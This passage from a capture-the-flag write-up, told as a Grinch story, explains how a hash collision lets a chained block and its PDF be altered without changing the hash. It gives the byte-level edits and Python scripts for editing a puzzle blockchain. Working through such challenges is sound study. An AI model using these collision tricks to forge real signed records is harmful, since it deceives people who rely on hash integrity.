and he had two files. One PDF and a bin. He \href{https://speakerdeck.com/ange/colltris?slide=109}{knew} that Jack would have probably changed something (either add or subtract and then 64 bytes later do the opposite, i.e. if he added first then subtract).
He inspected quickly the file in a hex editor and a portion of it looked \href{https://github.com/corkami/collisions#pdf}{familiar}.
He must have leveraged PDF's ability to store foreign object (or not but I'm pointing you to somewhere in the repo).

The change was easy. He had to revert that change, one byte at the time.
\begin{figure}[h!]
  
\includegraphics[scale=0.4]{pdf-change}
  \caption{Changed PDF.}
\end{figure}

By playing a bit (e.g. adding/subtracting with byte 33 -originally 32- ) we end up with a report mentioning that Jack Frost kicked a wombat. Since we added one byte there, we convert byte 1C to 1D and this wraps up the changes required in the PDF.

\subsection{Almost there}

Grinch knew what to do. He modified his code to load the PDF back and then dump the whole block.
Again, he modified his code a bit.
\begin{minted}{python}
with open('official_public.pem', 'rb') as fh:
        official_public_key = RSA.importKey(fh.read())
        c2 = Chain(load=True, filename='blockchain.dat')
        print('C2: Block chain verify: %s' % (c2.verify_chain(official_public_key, previous_hash='c6e2e6ecb785e7132c8003ab5aaba88d')))
        for block in c2.blocks:
            c2.save_a_block(block.index, filename='original.dat') # Save original block.
            h = SHA256.new()
            h.update(block.block_data_signed())
            if h.hexdigest() == '58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f':
                hash  = block.full_hash()
                files = ['129459.bin', '129459.pdf']
                for i in range(2):
                    f = open('11b-collision/' + files[i], 'rb')
                    data = f.read()
                    block.data[i]['data'] = data
                block.sign = 0 # Drop him back to naughty.

                c2.save_a_block(block.index)
\end{minted}

By inspecting the two files, he identified where the Naughty/Nice status was. Also, he already knew that by converting him to Naughty, it means he subtracted, he had to add 1 to the 64th byte after that change.
The required change landed in the .bin file but he decided to load the whole block in a hex editor.

\begin{figure}[h!]
  
\includegraphics[scale=0.4]{last-change}
  \caption{Changed Block.}
\end{figure}

He changed byte with value 30 (originally 31), so he went ahead and +1 byte with D6 to D7.

Now, it was the time. Another quick modification of his script.
\begin{minted}{python}
if __name__ == '__main__':
    with open('official_public.pem', 'rb') as fh:
        official_public_key = RSA.importKey(fh.read())
        c2 = Chain(load=True, filename='blockchain.dat')
        print('C2: Block chain verify: %s' % (c2.verify_chain(official_public_key, previous_hash='c6e2e6ecb785e7132c8003ab5aaba88d')))
        for block in c2.blocks:
            h = SHA256.new()
            h.update(block.block_data_signed())
            if h.hexdigest() == '58a3b9335a6ceb0234c12d35a0564c4ef0e90152d0eb2ce2082383b38028a90f':
                hash  = block.full_hash()
                fh = open('block2.dat', 'rb')
                block2 = Block(load=True).load_a_block(fh)
                hash  = block.full_hash()
                hash2 = block2.full_hash()
                print (hash == hash2)
                h = SHA256.new()
                h.update(block2.block_data_signed())
                print(h.hexdigest())
\end{minted}

He ran the script and fff054f33c2134e0230efb29dad515064ac97aa8c68d33c58c01213a0d408afb.
He was quite happy, he saved christmas.
\subsection{Wait}
- Grinch, we are missing a narrative here.

- Oh, maybe I should stop pretending to be Santa and come back as myself and head to the balcony.

\end{document}
